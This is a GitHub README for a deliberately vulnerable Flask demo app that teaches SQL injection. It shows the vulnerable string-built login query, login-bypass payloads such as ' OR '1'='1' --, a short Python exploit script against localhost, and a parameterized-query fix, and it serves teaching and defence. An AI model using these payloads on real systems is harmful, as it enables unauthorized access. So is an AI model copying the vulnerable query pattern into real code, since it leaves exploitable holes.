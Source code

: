 # SQL Injection Vulnerability Demo

Simple containerized flask web application demonstrating an SQL injection vulnerability.


## How to Deploy
1. Install [Docker](https://www.docker.com/get-started/) and [Docker Compose](https://docs.docker.com/compose/install/).

2. Copy the `.env.example` file in [src/.env.example](src/.env.example), rename into `.env`, and set its own credentials.

```bash
cd src/
cp .env.example .env
```

3. Set DB Query at [src/query.sql.example](src/query.sql.example)

```bash
cd src/
cp query.sql.example query.sql
```

4. Run & build
```bash
docker compose up -d --build
```

or simply execute

```bash
chmod +x setup.sh \
    ./setup.sh
```

5. Access the app at running on nginx port `:8051`, http://localhost:8051 or http://127.0.0.1:8051


## Code Analysis

Comparing [this](https://github.com/nopedawn/sqli-vuln-demo/commit/2af893907355d83e37cc29410d8955310e78beb1) previous commit, are vulnerable to the sql injection

### Exploit

```python
# vulnerable to SQL injection
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
cursor.execute(query)
```

So the payload are look like this,

`' OR 1=1 -- ` or `' OR '1'='1' -- `

Exploit script

```python
import requests

url = "http://127.0.0.1:8051/login"

payload = "' OR '1'='1' -- "
data = {
    "username": payload,
    "password": "anything"
}
response = requests.post(url, data=data)

print("Status Code:", response.status_code)
print("Response Text:", response.text)
```

### How It Works

When this payload is injected into the username field and any value (or even empty) is provided for password, the query becomes:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' -- ' AND password = ''
```

- `' OR '1'='1'`: Always evaluates to `TRUE`, meaning the `SELECT` statement will return the first user from the database.
- `--`: Comments out the remaining part of the query (`AND password = ''`), making the password check irrelevant.

### Mitigate

To avoid from SQL Injection attack, use parameterized queries

```python
# mitigate: parameterized queries
query = "SELECT * FROM users WHERE username = %s AND password = %s"
cursor.execute(query, (username, password))
```

## Reference

[Common SQLI Payload - payloadbox](https://github.com/payloadbox/sql-injection-payload-list) <br>
[SQL Injection Prevention - OWASP](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)